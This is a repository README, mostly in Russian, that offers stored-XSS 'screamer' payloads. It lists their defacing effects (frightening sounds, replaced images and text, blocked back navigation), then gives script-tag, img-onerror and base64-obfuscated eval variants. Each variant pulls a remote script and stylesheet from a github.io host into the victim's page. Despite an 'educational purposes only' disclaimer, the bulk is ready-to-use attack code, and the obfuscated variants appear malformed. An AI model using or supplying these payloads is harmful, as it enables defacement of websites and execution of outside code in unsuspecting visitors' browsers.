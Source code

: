 # XSS

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>

* Страшная музыка.
* Постепенно изменяющийся цвет фона на красный.
* Прыгающий и мигающий текст.
* Нельзя вернуться на предыдущую страницу (зависит от браузера).
* Замена всех изображений на скример.
* Замена текста в тегах "p", "h1", "a".
* Замена всех тегов "a" на "p".
* Скример на весь экран с криком в течение какого-то времени.

⚠️ Important: This payload is for educational purposes only and for testing on your own or training systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

------------------------------------------

Полная версия (JS + CSS):

<script>var c=document.createElement('link');c.rel='stylesheet';c.href='//scullteam.github.io/XSS/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//scullteam.github.io/XSS/script.js';document.body.appendChild(r);</script>

# /

<script>eval(atob('PHNjcmlwdD52YXIgYz1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdsaW5rJyk7Yy5yZWw9J3N0eWxlc2hlZXQnO2MuaHJlZj0nLy9zY3VsbHRlYW0uZ2l0aHViLmlvL1hTUy9zdHlsZXMuY3NzJztkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKGMpO3ZhciByPWRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3Iuc3JjPScvL3NjdWxsdGVhbS5naXRodWIuaW8vWFNTL3NjcmlwdC5qcyc7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChyKTs8L3NjcmlwdD4='))</script>

# ///

<img src="" alt="" onerror="var c=document.createElement('link');c.rel='stylesheet';c.href='//scullteam.github.io/XSS/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//scullteam.github.io/XSS/script.js';document.body.appendChild(r)">

# /

<img src="" onerror="eval(atob('PGltZyBzcmM9IiIgYWx0PSIiIG9uZXJyb3I9InZhciBjPWRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ2xpbmsnKTtjLnJlbD0nc3R5bGVzaGVldCc7Yy5ocmVmPScvL3NjdWxsdGVhbS5naXRodWIuaW8vWFNTL3N0eWxlcy5jc3MnO2RvY3VtZW50LmhlYWQuYXBwZW5kQ2hpbGQoYyk7dmFyIHI9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7ci5zcmM9Jy8vc2N1bGx0ZWFtLmdpdGh1Yi5pby9YU1Mvc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHIpIj4='))">
